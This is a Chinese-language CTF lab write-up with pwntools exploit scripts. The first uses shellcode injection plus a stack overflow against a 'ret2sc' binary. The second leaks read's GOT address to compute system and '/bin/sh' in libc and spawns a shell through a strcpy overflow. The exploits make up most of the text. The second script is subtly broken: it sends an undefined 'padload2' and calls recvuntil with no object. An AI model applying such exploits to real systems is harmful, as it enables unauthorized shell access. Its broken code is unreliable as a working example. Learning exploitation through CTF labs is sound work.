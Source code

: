 ```python
from pwn import *
context.log_level="debug"
re = ELF("ret2sc")

cn = process("./ret2sc")

cn.recv()
cn.sendline(asm(shellcraft.linux.sh()))

cn.recv()

name_addr = 0x0804A060
payload = 'a'*0x1c+'bbbb'+p32(name_addr)
cn.sendline(payload)
cn.interactive()
```

### lab4

分析源码可知，see_something可以提供传入一个地址字符串，打印该地址字符串所存储的内容，%p打印了16进制地址【泄露got表】，由于只有libc中的read被调用过，因此泄露elf.got['read']中存储的地址即read的真实地址

在Print_message中存在栈溢出漏洞，main中read(0, &src, **0x100u**);而Print_message中strcpy(&dest, src);中char dest; // [esp+10h] **[ebp-38h]**。

**exp：**泄露read对应的got表项，得到read函数的真实地址，从而得到system和/bin/sh的真实地址，通过栈溢出，执行system("/bin/sh")

```python
from pwn import *
context.log_level='debug'

libc = ELF("./libc.so")
elf = ELF('ret2lib')
re =process('./ret2lib')

re.recvuntil("(in dec) :")
read_got = elf.got['read'] #10进制read got表项地址
payload1= str(read_got)
re.sendline(payload1)
#将16进制str【不含0x】按16进制解析变成10进制数值
read_addr =  int(re.recv()[-8:-1],16)
print "func read addr = ",read_addr
recvuntil("for me :")
sys_addr = read_addr - libc.symbols['read']+ libc.symbols['system']
binsh_addr = read_addr - libc.symbols['read']+libc.search('/bin/sh').next()
#注意/bin/sh通过libc.search('/bin/sh').next()获得libc中的偏移
payload2='a'*0x38+'bbbb'+p32(sys_addr)+'bbbb'+p32(binsh_addr)
re.sendline(padload2)
re.interactive()
```

注：strtol(&buf, v3, v4)：实现将字符串转化成长整形，v4指定进制，v3指定终止条件或字符，buf提供要转化成long long的字符串。
